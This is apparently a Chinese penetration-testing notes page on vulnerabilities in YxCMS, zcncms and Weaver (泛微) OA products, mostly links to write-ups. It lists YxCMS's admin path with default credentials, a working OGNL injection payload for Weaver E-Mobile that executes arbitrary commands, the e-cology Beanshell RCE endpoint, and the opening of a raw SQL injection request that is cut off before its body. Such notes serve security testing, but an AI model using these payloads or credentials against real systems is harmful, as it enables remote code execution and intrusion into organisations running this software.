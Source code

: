 
## YxCMS

- 官网: http://www.yxcms.net/index.html

**常见路径**
```
/index.php?r=admin  # 后台  默认管理员账号密码 admin 123456
```

**YxCMS 1.4.7 多个漏洞**
- 文章
    - [YxCMS 1.4.7 最新版漏洞分析](https://bbs.ichunqiu.com/thread-45926-1-1.html)

---

## zcncms
**文章**
- [zcncms多个漏洞-Musec](http://musec.lofter.com/post/303379_d39f0c)
- [ZCNCMS审计及漏洞分析](https://www.anquanke.com/post/id/179782)
- [代码审计——zcncms后台SQL注入(一) ](http://0day5.com/archives/4053/)
- [代码审计——zcncms几处漏洞合集(二) ](http://0day5.com/archives/4062/)

---

## 泛微
**e-mobile < 6.5 Ognl 表达式注入**
- 文章
    - [关于表达式注入的小记录](https://zhuanlan.zhihu.com/p/26052235)
    - [泛微 E-Mobile Ognl 表达式注入](https://blog.csdn.net/qq_27446553/article/details/68203308)
    - [泛微 E-Mobile Ognl 表达式注入](https://docs.ioin.in/writeup/www.sh0w.top/_index_php_archives_14_/index.html)

- POC | Payload | exp
    ```
    message=(#_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#w=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter()).(#w.print(@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec(#parameters.cmd[0]).getInputStream()))).(#w.close())&cmd=whoami
    ```

**e-cology OA Beanshell 组件远程代码执行**
- 文章
    - [[漏洞预警]泛微e-cology OA Beanshell组件远程代码执行分析](https://mp.weixin.qq.com/s/Hr6fSOaPcTp2YaD-fPMxyg)
    - [泛微e-cology OA Beanshell组件远程代码执行漏洞复现](https://mp.weixin.qq.com/s/LpXiLukOKMfMSa8gUYBqNA)

- POC | Payload | exp
    - [jas502n/e-cology](https://github.com/jas502n/e-cology)
    ```
    /weaver/bsh.servlet.BshServlet
    ```

**泛微 OA WorkflowCenterTreeData 接口注入漏洞(限 oracle 数据库)**
- POC | Payload | exp
    ```
    POST /mobile/browser/WorkflowCenterTreeData.jsp?node=wftype_1&scope=2333 HTTP/1.1
    Host: ip:port
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:56.0) Gecko/20100101 Firefox/56.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 2236
    Connection: close
    Upgrade-Insecure-Requests: 1
